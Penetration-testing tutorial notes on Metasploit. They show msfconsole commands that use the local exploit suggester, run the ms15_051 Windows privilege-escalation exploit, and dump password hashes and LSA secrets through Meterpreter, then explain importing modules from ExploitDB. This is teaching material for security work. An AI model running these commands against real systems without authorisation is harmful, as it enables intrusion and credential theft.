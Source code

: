 ### Example of Privilege Escalation
Use the `local_exploit_suggester` module to find vulnerabilities:
```bash
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

If a suitable exploit is found:
```bash
msf6 > use exploit/windows/local/ms15_051_client_copy_image
msf6 exploit(windows/local/ms15_051_client_copy_image) > set SESSION 1
msf6 exploit(windows/local/ms15_051_client_copy_image) > run
```

## Post-Exploitation
Meterpreter provides various post-exploitation commands:
- **Hash Dumping**:
```bash
meterpreter > hashdump
```
- **Dumping LSA Secrets**:
```bash
meterpreter > lsa_dump_secrets
```

These commands allow you to retrieve sensitive data, impersonate users, or pivot further into the network.

---

Meterpreter's versatility and power make it an essential tool in any penetration tester's arsenal.

#Extra


# Writing and Importing Modules

To install any new Metasploit modules which have already been ported over by other users, one can choose to update their msfconsole from the terminal, which will ensure that all newest exploits, auxiliaries, and features will be installed in the latest version of msfconsole. As long as the ported modules have been pushed into the main Metasploit-framework branch on GitHub, we should be updated with the latest modules.

However, if we need only a specific module and do not want to perform a full upgrade, we can download that module and install it manually. We will focus on searching ExploitDB for readily available Metasploit modules, which we can directly import into our version of msfconsole locally.

## ExploitDB Search

ExploitDB is a great choice when searching for a custom exploit. We can use tags to search through the different exploitation scenarios for each available script. One of these tags is Metasploit Framework (MSF), which, if selected, will display only scripts that are also available in Metasploit module format. These can be directly downloaded from ExploitDB and installed in our local Metasploit Framework directory, from where they can be searched and called from within the msfconsole.
